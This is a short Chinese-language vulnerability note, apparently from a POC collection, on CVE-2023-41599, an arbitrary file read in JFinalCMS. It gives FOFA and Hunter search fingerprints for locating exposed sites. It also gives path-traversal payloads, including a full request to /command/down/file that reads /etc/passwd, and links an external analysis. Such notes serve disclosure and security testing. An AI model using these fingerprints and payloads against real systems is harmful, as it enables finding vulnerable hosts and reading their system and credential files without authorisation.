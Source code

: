 ## JFinalCMS 任意文件读取漏洞(CVE-2023-41599)


## 特征
```
fofa:

body="content=\"JreCms"

hunter:

web.body="content=\"JreCms"
```
## POC
```
Windows: /../../../../../../../../../test.txt
Linux:	/../../../../../../../../../etc/passwd

/command/down/file?filekey=/../../../../../../../../../etc/passwd
```


## 漏洞分析
http://www.so1lupus.ltd/2023/08/28/Directory-traversal-in-JFinalCMS/
